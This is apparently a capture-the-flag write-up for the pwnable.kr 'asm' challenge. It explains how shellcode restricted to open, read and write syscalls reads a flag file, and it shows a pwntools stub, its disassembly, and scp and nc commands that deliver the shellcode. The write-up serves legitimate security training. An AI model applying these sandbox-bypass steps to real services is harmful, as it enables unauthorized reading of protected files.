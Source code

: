 # `asm`

# Assignment

    Mommy! I think I know how to make shellcodes

    ssh asm@pwnable.kr -p2222 (pw: guest)


Readme:

    once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
    make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)

`ls -al`:

    drwxr-x---  5 root asm   4096 Jan  2  2017 .
    drwxr-xr-x 93 root root  4096 Oct 10 22:56 ..
    d---------  2 root root  4096 Nov 19  2016 .bash_history
    dr-xr-xr-x  2 root root  4096 Nov 25  2016 .irssi
    drwxr-xr-x  2 root root  4096 Jan  2  2017 .pwntools-cache
    -rwxr-xr-x  1 root root 13704 Nov 29  2016 asm
    -rw-r--r--  1 root root  1793 Nov 29  2016 asm.c
    -rw-r--r--  1 root root   211 Nov 19  2016 readme
    -rw-r--r--  1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong

# Solution

The `asm.c` is a simple sandbox that allows only 5 syscalls to be executed from the sent shellcode. The `open`, `read`, `write` syscalls are sufficient to read a file and write its contents to `STDOUT_FILENO`. The `stub` just `xor`s the registers:

```python
from pwn import *

stub = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"
context.update(bits=64, arch="amd64")
print disasm(stub)

```

    0:   48 31 c0                xor    rax,rax
    3:   48 31 db                xor    rbx,rbx
    6:   48 31 c9                xor    rcx,rcx
    9:   48 31 d2                xor    rdx,rdx
    c:   48 31 f6                xor    rsi,rsi
    f:   48 31 ff                xor    rdi,rdi
    12:   48 31 ed                xor    rbp,rbp
    15:   4d 31 c0                xor    r8,r8
    18:   4d 31 c9                xor    r9,r9
    1b:   4d 31 d2                xor    r10,r10
    1e:   4d 31 db                xor    r11,r11
    21:   4d 31 e4                xor    r12,r12
    24:   4d 31 ed                xor    r13,r13
    27:   4d 31 f6                xor    r14,r14
    2a:   4d 31 ff                xor    r15,r15

You can find my shellcode in [shellcode.c](shellcode.c) and the compilation rules are in [Makefile](Makefile).

After that it is simple:

    HOME~$ scp -P 2222 ./shellcode.bin asm@pwnable.kr:/dev/shm
    REMOTE~$ nc 0 9026 < /dev/shm/shellcode.bin
